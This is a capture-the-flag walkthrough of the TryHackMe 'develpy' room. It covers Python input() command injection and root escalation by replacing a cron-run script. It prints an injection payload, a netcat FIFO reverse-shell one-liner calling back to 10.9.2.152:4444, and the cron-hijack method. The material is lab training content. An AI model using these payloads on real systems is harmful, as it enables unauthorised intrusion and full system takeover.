




Hello everyone,

Today we are going to solve develpy from Tryhackme. we will see python command injection and privilege escalation with crontab.


<!--truncate-->

## Nmap results

```c
PORT      STATE SERVICE           VERSION
22/tcp    open  ssh               OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 78:c4:40:84:f4:42:13:8e:79:f8:6b:e4:6d:bf:d4:46 (RSA)
|   256 25:9d:f3:29:a2:62:4b:24:f2:83:36:cf:a7:75:bb:66 (ECDSA)
|_  256 e7:a0:07:b0:b9:cb:74:e9:d6:16:7d:7a:67:fe:c1:1d (ED25519)
10000/tcp open  snet-sensor-mgmt?
| fingerprint-strings:
|   GenericLines:
|     Private 0days
|     Please enther number of exploits to send??: Traceback (most recent call last):
|     File "./exploit.py", line 6, in <module>
|     num_exploits = int(input(' Please enther number of exploits to send??: '))
|     File "<string>", line 0
|     SyntaxError: unexpected EOF while parsing
|   GetRequest:
|     Private 0days
|     Please enther number of exploits to send??: Traceback (most recent call last):
|     File "./exploit.py", line 6, in <module>
|     num_exploits = int(input(' Please enther number of exploits to send??: '))
|     File "<string>", line 1, in <module>
|     NameError: name 'GET' is not defined
|   HTTPOptions, RTSPRequest:
|     Private 0days
|     Please enther number of exploits to send??: Traceback (most recent call last):
|     File "./exploit.py", line 6, in <module>
|     num_exploits = int(input(' Please enther number of exploits to send??: '))
|     File "<string>", line 1, in <module>
|     NameError: name 'OPTIONS' is not defined
|   NULL:
|     Private 0days
|_    Please enther number of exploits to send??:
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port10000-TCP:V=7.91%I=7%D=9/3%Time=6132570A%P=x86_64-pc-linux-gnu%r(NU
SF:LL,48,"\r\n\x20\x20\x20\x20\x20\x20\x20\x20Private\x200days\r\n\r\n\x20
SF:Please\x20enther\x20number\x20of\x20exploits\x20to\x20send\?\?:\x20")%r
SF:(GetRequest,136,"\r\n\x20\x20\x20\x20\x20\x20\x20\x20Private\x200days\r
SF:\n\r\n\x20Please\x20enther\x20number\x20of\x20exploits\x20to\x20send\?\
SF:?:\x20Traceback\x20\(most\x20recent\x20call\x20last\):\r\n\x20\x20File\
SF:x20\"\./exploit\.py\",\x20line\x206,\x20in\x20<module>\r\n\x20\x20\x20\
SF:x20num_exploits\x20=\x20int\(input\('\x20Please\x20enther\x20number\x20
SF:of\x20exploits\x20to\x20send\?\?:\x20'\)\)\r\n\x20\x20File\x20\"<string
SF:>\",\x20line\x201,\x20in\x20<module>\r\nNameError:\x20name\x20'GET'\x20
SF:is\x20not\x20defined\r\n")%r(HTTPOptions,13A,"\r\n\x20\x20\x20\x20\x20\
SF:x20\x20\x20Private\x200days\r\n\r\n\x20Please\x20enther\x20number\x20of
SF:\x20exploits\x20to\x20send\?\?:\x20Traceback\x20\(most\x20recent\x20cal
SF:l\x20last\):\r\n\x20\x20File\x20\"\./exploit\.py\",\x20line\x206,\x20in
SF:\x20<module>\r\n\x20\x20\x20\x20num_exploits\x20=\x20int\(input\('\x20P
SF:lease\x20enther\x20number\x20of\x20exploits\x20to\x20send\?\?:\x20'\)\)
SF:\r\n\x20\x20File\x20\"<string>\",\x20line\x201,\x20in\x20<module>\r\nNa
SF:meError:\x20name\x20'OPTIONS'\x20is\x20not\x20defined\r\n")%r(RTSPReque
SF:st,13A,"\r\n\x20\x20\x20\x20\x20\x20\x20\x20Private\x200days\r\n\r\n\x2
SF:0Please\x20enther\x20number\x20of\x20exploits\x20to\x20send\?\?:\x20Tra
SF:ceback\x20\(most\x20recent\x20call\x20last\):\r\n\x20\x20File\x20\"\./e
SF:xploit\.py\",\x20line\x206,\x20in\x20<module>\r\n\x20\x20\x20\x20num_ex
SF:ploits\x20=\x20int\(input\('\x20Please\x20enther\x20number\x20of\x20exp
SF:loits\x20to\x20send\?\?:\x20'\)\)\r\n\x20\x20File\x20\"<string>\",\x20l
SF:ine\x201,\x20in\x20<module>\r\nNameError:\x20name\x20'OPTIONS'\x20is\x2
SF:0not\x20defined\r\n")%r(GenericLines,13B,"\r\n\x20\x20\x20\x20\x20\x20\
SF:x20\x20Private\x200days\r\n\r\n\x20Please\x20enther\x20number\x20of\x20
SF:exploits\x20to\x20send\?\?:\x20Traceback\x20\(most\x20recent\x20call\x2
SF:0last\):\r\n\x20\x20File\x20\"\./exploit\.py\",\x20line\x206,\x20in\x20
SF:<module>\r\n\x20\x20\x20\x20num_exploits\x20=\x20int\(input\('\x20Pleas
SF:e\x20enther\x20number\x20of\x20exploits\x20to\x20send\?\?:\x20'\)\)\r\n
SF:\x20\x20File\x20\"<string>\",\x20line\x200\r\n\x20\x20\x20\x20\r\n\x20\
SF:x20\x20\x20\^\r\nSyntaxError:\x20unexpected\x20EOF\x20while\x20parsing\
SF:r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 133.32 seconds
```

---

--> i found nothing after opening port `10000` on browser but i knew that it's executing python code so let's try to connect with netcat

`nc <ip> <port>`

--> and i found this :



--> that means it's pinging tryhackme 2 times so we have to do something called `python command injection`

--> so i found this website for this

https://www.stackhawk.com/blog/command-injection-python/

--> and i made this payload

```bash
__import__('os').system("id")
```

--> and i got the result of id command !



--> so now we can get the reverse shell from this !

---

```bash
__import__('os').system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.2.152 4444 >/tmp/f")
```

---

## Privesc

--> i found 2 files in `/home/king` `root.sh` and `run.sh` so i think there should be some cronjob running in the backend so i checked `/etc/crontab` and found 3 cronjobs



--> then i executed `pspy` and found that `root.sh` is running as root every 1 min

--> but we don't have permissions to write on that file

--> so i deleted `root.sh` file because it's in our home directory so we can delete it and after i addded reverse shell in that file and gav e `777` permission to execute it !

--> now just start listner on netcat

--> and after 1 minute i got root !


